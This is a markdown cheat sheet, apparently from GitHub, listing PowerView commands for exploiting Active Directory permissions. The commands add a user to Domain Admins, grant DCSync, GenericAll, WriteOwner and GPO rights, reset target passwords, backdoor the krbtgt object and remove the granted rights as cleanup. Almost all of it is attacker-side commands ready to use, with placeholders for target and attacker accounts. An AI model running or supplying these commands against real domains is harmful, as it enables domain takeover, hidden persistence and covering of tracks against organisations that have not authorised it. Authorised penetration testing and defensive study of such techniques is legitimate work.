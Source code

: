 # Exploitation with Powerview

### Examples:

1) Add a user to the Domain Admins Group (Generic Write/Generic All privileges on the DA Group)

        Add-DomainGroupMember -Identity 'Domain Admins' -Members 'USER' -Credential $Cred

2) Add permissions to a user (Write permissions)

        Add-ObjectAcl -TargetIdentity <target_username> -PrincipalIdentity <attacker_username> -Rights WriteProperty

3) Add GenericAll Permissions (Full Control)

        Add-ObjectAcl -TargetIdentity <target_username> -PrincipalIdentity <attacker_username> -Rights GenericAll

4) Add Permissions for DCSync (Replicating Directory Changes)

        Add-ObjectAcl -TargetIdentity "DC=example,DC=com" -PrincipalIdentity <attacker_username> -Rights DCSync

5) Grant Permissions on Group Membership

        Add-ObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity <attacker_username> -Rights WriteMembers

Once granted, you can add yourself to the group using Add-DomainGroupMember

6) Modify GPO permissions

        Add-ObjectAcl -TargetIdentity "Default Domain Policy" -PrincipalIdentity <attacker_username> -Rights WriteProperty

7) Abuse WriteOwner permissions (Grant yourself the WriteOwner permission)

If you grant yourself the WriteOwner permission, you can change the owner of an object (e.g., a user or group) to yourself and escalate privileges.

        Add-ObjectAcl -TargetIdentity <target_username> -PrincipalIdentity <attacker_username> -Rights WriteOwner

8) Modify passwords for persistence and privilege escalation

        Set-DomainUserPassword -Identity <target_username> -AccountPassword (ConvertTo-SecureString "NewP@ssw0rd" -AsPlainText -Force)

9) Backdoor an Object via ACLs

You can add backdoor permissions (e.g., GenericAll) on critical objects like Domain Admins or krbtgt.

        Add-ObjectAcl -TargetIdentity "krbtgt" -PrincipalIdentity <attacker_username> -Rights GenericAll

10) Remove Permissions (Cleanup)

        Remove-ObjectAcl -TargetIdentity <target_object> -PrincipalIdentity <attacker_username> -Rights <specific_right>
